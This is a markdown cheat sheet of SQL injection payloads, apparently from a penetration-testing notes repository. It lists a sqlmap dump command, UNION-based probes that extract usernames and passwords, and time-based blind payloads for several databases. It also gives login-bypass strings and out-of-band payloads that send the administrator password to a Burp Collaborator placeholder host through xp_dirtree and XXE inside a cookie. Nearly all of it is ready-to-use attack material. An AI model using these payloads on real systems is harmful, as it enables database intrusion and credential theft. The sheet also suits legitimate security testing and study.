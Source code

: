 # SQL Injection

## Reflected SQL Injection:</h2>
```bash
sqlmap --url https://$domain/filter?category=Lifestyle --dump --schema --tables --columns
Results:
Database: public
Table: users
[POC]:
https://$domain/filter?category=Lifestyle'+UNION+SELECT+username,+password+FROM+users--
```

### First detect numbers of columns
```sql
' UNION SELECT NULL--
' UNION SELECT NULL, NULL--
' UNION SELECT NULL, NULL, NULL--
...
# Oracle
' UNION SELECT NULL FROM dual--
' UNION SELECT NULL, NULL FROM dual--
' UNION SELECT NULL, NULL, NULL FROM dual--

-- o #

```
### Second Find where holds strings data
```sql
' UNION SELECT 'a', NULL, NULL--
' UNION SELECT NULL, 'a', NULL--
' UNION SELECT NULL, NULL, 'a'--
```
## Version
```http2
Database type 	              Query
Microsoft, MySQL 	    SELECT @@version
Oracle 	                    SELECT * FROM v$version
PostgreSQL 	            SELECT version() 
```

## Blind SQL Injection:
```sql
';SELECT PG_SLEEP(5)--
'||pg_sleep(10)--
'SLEEP(2);--
'IF (1=1) waitfor delay '0:0:10'--
```

## Blind SQL injection using out-of-band (OAST) techniques

```sql
'; exec master..xp_dirtree '//SUBDOMAIN.burpcollaborator.net/a'--
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.SUBDOMAIN.burpcollaborator.net/a"')--
```
## SQL Based Errors
```sql
'IF (1=1) waitfor delay '0:0:10'--
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

## SQL Login
In nickname, email and password test for
```html
name'--
pass'--
'+OR+1=1--
'+OR+2=2--
'+OR+5=5--
'+OR+'E'='E'--
```


## Test cookies for "HTTP Request" - Blind:
```http2
  TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

### Then for credentials.
```http2
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--.
  ```
### CheatSheet
https://portswigger.net/web-security/sql-injection/cheat-sheet
